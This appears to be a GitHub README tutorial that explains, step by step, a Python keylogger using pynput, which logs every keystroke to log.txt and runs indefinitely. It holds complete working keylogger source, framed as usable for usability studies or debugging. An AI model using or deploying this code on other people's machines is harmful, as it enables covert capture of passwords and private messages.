 # Creating and Deploying a Keylogger using Python

## Project Overview

The goal of this project is to develop a simple keylogging application that records keystrokes made on a keyboard and logs them into a text file. This can be useful for various purposes, such as monitoring input for usability studies or debugging.

### Functionality:
- Captures keystrokes made by the user.
- Logs the pressed keys into a file named log.txt.
- Handles special keys like space, Enter, Alt, Tab, and Backspace with specific representations.

### Key Features:
- Logs each keypress event.
- Differentiates between regular and special keys.
- Provides a clean and readable format for special key events.
- Continuously runs in the background to capture keystrokes.

## OBJECTIVES
- Importing Required Module
- Defining 'log-keystroke' Function
- Handling Special Keys
- Logging The Key Strokes
- Starting Key Listener

## Technologies Used

#### Python:
Role: The programming language used to write the keylogging application.
Features:
High-level and easy to read.
Extensive libraries and modules for various tasks.

##### pynput Library:
Role: Provides functionality to monitor and control input devices like keyboards.
Features:
Listener class to detect and respond to keyboard events.
Handles special keys and their events.

#### File I/O Operations:
Role: Used to write the captured keystrokes to a text file.
Features:
open function to create or append to log.txt.
write method to log keystrokes into the file.

### 1. Importing Required Modules
    
    from pynput.keyboard import Listener

This line imports the Listener class from the pynput.keyboard module. pynput is a library used to control and monitor input devices like the keyboard and mouse in Python. The Listener class allows us to monitor keyboard events such as key presses.

### 2. Defining 'log-keystroke' Function

    def log_keystroke(key):
        key = str(key).replace("'", "")

This is the beginning of a function called log_keystroke, which will handle each key press event.

<b>key = str(key).replace("'", ""):</b>

The key parameter represents the key that was pressed. It's converted to a string, and any single quotes (') are removed. This is done because keys are often represented as strings in the form "'a'", and we want to clean this up for easier reading and logging.

### 3. Handling Special Keys

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'
    if key == 'Key.alt_l' or key == 'Key.alt_r':
        key = ''
    if key == 'Key.tab':
        key = ''
    if key == 'Key.backspace':
        key = ''

This part of the code checks if the pressed key is a special key and replaces it with a corresponding character:

<b>if key == 'Key.space': key = ' '</b>

If the pressed key is the space bar (Key.space), it replaces it with an actual space character (' ').

<b>if key == 'Key.shift_r': key = ''</b>

If the pressed key is the right Shift key (Key.shift_r), it replaces it with an empty string. The Shift key by itself does not produce any character, so it's effectively ignored.

<b>if key == "Key.enter": key = '\n'</b>

If the pressed key is the Enter key (Key.enter), it replaces it with a newline character ('\n').

<b>if key == 'Key.alt_l' or key == 'Key.alt_r': key = ''</b>

If the pressed key is the left or righ Alt key (Key.alt_r) or (Key.alt_l), it replaces it with an empty string.

<b>if key == 'Key.tab': key = ''</b>

If the pressed key is the tab key (Key.tab), it replaces it with an empty string.

<b>if key == 'Key.backspace': key = ''</b>

If the pressed key is the backspace key (Key.backspace), it replaces it with an empty string.

### 4. Logging The Keystrokes
      
      with open("log.txt", 'a') as f:
        f.write(key)
This part of the function opens a file named log.txt in append mode ('a').
<b>with open("log.txt", 'a') as f:</b>
This line writes the processed key (after any necessary replacements) to the file. Each key press is logged sequentially.

### 5. Starting the Key Listner
    with Listener(on_press=log_keystroke) as l:
    l.join()
This part of the code sets up the keyboard listener:
<b>with Listener(on_press=log_keystroke) as l:</b>
A Listener object is created, and the on_press event is tied to the log_keystroke function. This means that every time a key is pressed, the log_keystroke function will be called.
<b>l.join()</b>
The join() method is called on the listener, which makes the program wait for keyboard events indefinitely. The program will continue to run, logging all keystrokes until it is manually stopped.

## Summary

This script sets up a basic keylogger that captures every key pressed and writes it to a file named log.txt. It handles regular characters, as well as some special keys like space, shift, and enter, tab and alt. The pynput library is used to monitor the keyboard, and the listener runs indefinitely, capturing and logging each key press.


        
